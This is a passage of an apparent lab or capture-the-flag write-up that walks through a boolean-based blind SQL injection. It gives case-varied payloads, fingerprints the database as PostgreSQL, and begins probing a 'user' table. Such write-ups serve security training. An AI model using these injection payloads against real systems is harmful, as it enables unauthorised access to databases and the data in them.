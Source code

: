 See that! The payload `1' anD '1'='2` returns a web stage other the payload `1' anD '1'='1`

I continue to check the type of database 

```
1' anD (SEleCT 'o' fROm (SEleCT veRsIOn fROm v$inStance)) = 'o
1' anD (SEleCT 'o' fROm @@veRsIOn) = 'o
1' anD (SEleCT 'o' fROm veRsIOn()) = 'o
```

<p align="center">
<img src="https://github.com/pentest-khoa-02/Group1/blob/solution/solution/SQL%20Injection/images/17.png" width="666px">
</p>

The payload `1' anD (SEleCT 'o' fROm veRsIOn()) = 'o` got past, which mean `veRsIOn()` is executed. Okay! The type of database is PostgreSQL

I guess the name of table needs exploit also is **user**, and try `1' anD (SEleCT 'a' fROm (SEleCT * fROm "user") LimiT 1) = 'a`

<p align="center">